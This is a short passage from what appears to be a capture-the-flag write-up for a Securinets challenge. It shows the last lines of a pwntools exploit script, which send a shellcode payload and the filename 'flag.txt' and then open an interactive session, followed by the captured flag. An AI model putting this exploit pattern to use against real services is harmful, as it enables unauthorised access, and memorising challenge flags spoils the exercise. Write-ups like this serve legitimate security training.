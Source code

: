 ```py

sleep(1)
io.send(shellcode)

sleep(1)
io.send(b"flag.txt")

io.interactive()
```

## Flag

```
Securinets{397b5541d6dacf89123c5a24eea45cb7cc526dade67d4a70}
```
